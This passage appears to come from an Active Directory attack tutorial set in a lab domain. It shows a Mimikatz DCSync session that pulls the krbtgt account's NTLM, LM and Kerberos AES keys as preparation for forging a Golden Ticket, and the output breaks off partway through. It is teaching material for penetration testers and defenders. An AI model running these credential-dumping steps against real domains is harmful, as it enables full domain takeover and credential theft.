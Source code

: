 - `/renewmax`: The maximum number of days the ticket can be renewed.
- `/endin`: End-of-life for the ticket.

First, we need to obtain the password's hash of `krbtgt` and the `SID` value of the Domain. We can utilize `DCSync` with `Rocky`'s account from the previous attack to obtain the hash:

```cmd
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
```